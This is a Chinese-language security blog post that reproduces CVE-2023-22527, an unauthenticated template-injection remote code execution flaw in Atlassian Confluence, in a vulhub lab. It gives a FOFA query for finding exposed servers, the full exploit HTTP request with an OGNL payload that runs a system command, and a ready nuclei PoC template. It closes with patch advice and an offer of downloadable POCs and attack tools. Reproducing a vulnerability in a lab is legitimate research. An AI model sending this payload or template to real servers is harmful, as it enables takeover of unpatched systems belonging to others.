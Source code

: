 #  [漏洞复现]CVE-2023-22527   
原创 fgz  AI与网安   2024-02-11 07:44  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
Atlassian Confluence 模板注入代码执行漏洞  
  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
影响范围  
  
Atlassian Confluence Data Center and Server 8.0.x  
  
Atlassian Confluence Data Center and Server 8.1.x  
  
Atlassian Confluence Data Center and Server 8.2.x  
  
Atlassian Confluence Data Center and Server 8.3.x  
  
Atlassian Confluence Data Center and Server 8.4.x  
  
Atlassian Confluence Data Center and Server 8.5.0-8.5.3  
  
  
安全版本  
  
Atlassian Confluence Data Center and Server 8.5.4  
  
Atlassian Confluence Data Center 8.6.0  
  
Atlassian Confluence Data Center 8.7.1  
  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
Atlassian Confluence 是由 Atlassian 开发的企业级协作软件。2024年1月16日，Atlassian 官方披露 CVE-2023-22527 Atlassian Confluence 模板注入代码执行漏洞。攻击者可在无需登录的情况下构造恶意请求导致远程代码执行。Atlassian 官方评级严重，外界尚未流传相关利用。请Atlassian Confluence客户尽快升级。  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
app="ATLASSIAN-Confluence" && body="由 Atlassian 合流8.5.3"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNmE36xqZwDRM7ibVhryiapd6AmpC8JQOYkGgQZVY8W0zdT4icJS6zMXY2OAyQSicwrpQqazsdJyJkwGA/640?wx_fmt=png&from=appmsg "")  
  
  
互联网暴露面不算大，但内网中数量是相当可观的。  
  
  
05  
  
—  
  
靶场搭建  
  
  
下载vulhub源码  
```
https://github.com/vulhub/vulhub
```  
  
将源码上传到靶场虚拟机，解压并修改名称  
```
unzip vulhub-master.zip


```  
  
然后进入漏洞对应目录  
```
cd vulhub/confluence/CVE-2023-22527
```  
  
启动容器  
```
docker compose up -d
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNmE36xqZwDRM7ibVhryiapd6ibsSlKFF8vER4cXW2hh6kCJRXevsUNSthlZhmDYDdkOmnloWnAjq4JQ/640?wx_fmt=png&from=appmsg "")  
  
经过漫长的等待之后，安装完成查看容器，是有两个容器  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNmE36xqZwDRM7ibVhryiapd6WYkibQkwGWhRHmeZy6iaOKRCHsjiasVdoBM2ZrJ4gFwQkHhFRfge45vRA/640?wx_fmt=png&from=appmsg "")  
  
访问  
```
http://your-ip:8090
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNmE36xqZwDRM7ibVhryiapd6xdjtMp9exWh68648XGDM0eqISP1O1WsWNK1b21rxWvEY9uXcMUMKmA/640?wx_fmt=png&from=appmsg "")  
  
安装完之后需要按照提示申请一个license，按照安装向导配置数据库信息  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNmE36xqZwDRM7ibVhryiapd67TycIVBaHeickrPpNozJ37tz0ZQDPgjbe8MsXHNicWQPR6Mv0Eia4Uia8A/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNmE36xqZwDRM7ibVhryiapd6JtS8V2MvCNfSLfhibDoNhotj8kD4j8eqrYu6vxqzh9TS3rUPDRh0sAg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNmE36xqZwDRM7ibVhryiapd6R4PpgxbqC1qEG1uBhWOytc9g1dQ1oHhj6sUcTNIhiaVQ9Ribc9ljMNIg/640?wx_fmt=png&from=appmsg "")  
  
  
  
06  
  
—  
  
漏洞复现  
  
  
向靶场发送如下数据包  
```
POST /template/aui/text-inline.vm HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
 
label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({"id"}))
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNmE36xqZwDRM7ibVhryiapd6wazZxWrjrtRz3ib10l1FWmu1FtfFK75EpcD1LKibfSmgnL52iafVAtn5Q/640?wx_fmt=png&from=appmsg "")  
  
  
漏洞复现成功  
  
  
  
07  
  
—  
  
nuclei poc  
  
  
poc文件内容如下  
```
id: CVE-2023-22527

info:
  name: Atlassian Confluence 模板注入代码执行漏洞
  author: fgz
  severity: critical
  description: Atlassian Confluence 是由 Atlassian 开发的企业级协作软件。2024年1月16日，Atlassian 官方披露 CVE-2023-22527 Atlassian Confluence 模板注入代码执行漏洞。攻击者可在无需登录的情况下构造恶意请求导致远程代码执行。Atlassian 官方评级严重，外界尚未流传相关利用。请Atlassian Confluence客户尽快升级。
  metadata:
    max-request: 1
    fofa-query: app="ATLASSIAN-Confluence" && body="由 Atlassian 合流8.5.3"
    verified: true
requests:
  - raw:
      - |+
        POST /template/aui/text-inline.vm HTTP/1.1
        Host: {{Hostname}}
        Accept-Encoding: gzip, deflate, br
        Accept: */*
        Accept-Language: en-US;q=0.9,en;q=0.8
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
        Connection: close
        Cache-Control: max-age=0
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 285
        
        label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({"id"}))

    matchers:
      - type: dsl
        dsl:
          - "status_code == 200 && contains(header, 'X-Cmd-Response')"

```  
  
运行POC  
```
nuclei.exe -u http://192.168.40.130:8090/ -t mypoc/cve/CVE-2023-22527.yaml
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNmE36xqZwDRM7ibVhryiapd6fLuCIO14QYQnsNRP3XcZnLiaMO8ZYibFClARwCeLhUtXj28z6NTSUdZA/640?wx_fmt=png&from=appmsg "")  
  
  
08  
  
—  
  
修复建议  
  
  
  
1、官方已经发布安全更新，建议升级至最新版本。  
  
2、利用安全组功能设置其仅对可信地址开放。  
  
  
  
09  
  
—  
  
福利领取  
  
  
关注公众号，在公众号主页点发消息发送关键字免费领取。  
  
  
  
  
**后台发送【****电子书**  
**】关键字获取学习资料网盘地址**  
  
****  
**后台发送【POC】关键字获取POC网盘地址**  
  
  
**后台发送【工具】获取渗透工具包**  
  
  
  
  
  
